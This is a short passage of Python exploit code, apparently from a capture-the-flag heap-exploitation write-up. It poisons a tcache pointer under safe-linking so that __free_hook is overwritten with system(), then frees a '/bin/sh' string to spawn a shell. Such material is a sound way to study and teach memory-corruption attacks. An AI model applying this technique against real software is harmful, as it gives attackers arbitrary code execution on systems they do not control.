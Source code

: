 ```
    edit_bounty_s2(mangked_fd_1, p64((libc.symbols["__free_hook"] - 0x50) ^ (heap_addr >> 12)) + b"a"*0x58)
    
    add_bounty(20, b"abcd", b"a" * 0x60)
    add_bounty(20, b"abcd", b"b" * 0x50 + p64(libc.symbols["system"])) # __free_hook = system
    
```

To trigger:
```
    add_bounty(20, b"/bin/sh\x00", b"a"*0x90)
    free_bounty() # trigger free('/bin/sh') and win
```


